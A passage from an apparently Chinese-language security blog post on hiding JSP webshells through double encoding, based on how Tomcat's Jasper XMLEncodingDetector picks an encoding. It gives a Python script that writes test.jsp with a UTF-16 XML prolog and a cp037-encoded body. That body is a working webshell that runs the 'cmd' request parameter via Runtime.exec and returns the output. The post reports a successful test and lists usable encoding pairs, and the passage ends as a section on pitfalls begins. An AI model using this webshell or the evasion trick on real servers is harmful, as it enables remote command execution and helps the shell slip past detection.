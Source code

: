 #### [为什么上面这个有一定局限性现](#toc__4)

实际上如果你认真看了上面的代码你会发现决定具体代码逻辑是否能走到这一步和`isBomPresent`的值密不可分，我们也说到了只有文件前四个字节无法与`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`这个方法中某个编码匹配，之后假定XML文挡采用UTF-8编码，最终才能保证`isBomPresent`为false，因此这种利用的局限性在于文件头只能是utf8格式才能保证代码逻辑的正确执行

#### [更灵活的双编码jspwebshell](#toc_jspwebshell)

根据我们前面的分析，下面这种方式实现双编码会更灵活，可以更多样地选择双编码间的组合

这里简单写个python生成一个即可作为演示

`a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
 version="1.2">
 <jsp:directive.page contentType="text/html"/>
 <jsp:declaration>
 </jsp:declaration>
 <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
 out.write(line+"\\n");
}
</jsp:scriptlet>
 <jsp:text>
 </jsp:text>
</jsp:root>'''

with open("test.jsp","wb") as f:
    f.write(a0.encode("utf-16"))
    f.write(a1.encode("cp037"))` 

简单测试没毛病

[![](https://storage.tttang.com/media/attachment/2022/11/22/fba1a8f4-9007-4706-8b58-83c10ee77677.png)
](https://storage.tttang.com/media/attachment/2022/11/22/fba1a8f4-9007-4706-8b58-83c10ee77677.png)

访问测试

[![](https://storage.tttang.com/media/attachment/2022/11/22/a34a51b1-0a29-405e-bc62-100161b33cca.png)
](https://storage.tttang.com/media/attachment/2022/11/22/a34a51b1-0a29-405e-bc62-100161b33cca.png)

多说一下这里也只是相对灵活，从执行逻辑来看必须要是`XMLEncodingDetector#getEncodingName`能够识别的范围才行，因此在我这个版本中其实对应着`UTF-8\UTF-16BE\UTF-16LE\ISO-10646-UCS-4\CP037`作为前置编码，当然后置就无所谓啦基本上java中的都行

#### [避免双编码踩坑](#toc__5)

这里面有一个很大的坑！什么坑呢？

这里我们以前置cp037+后置utf-16为例进行说明
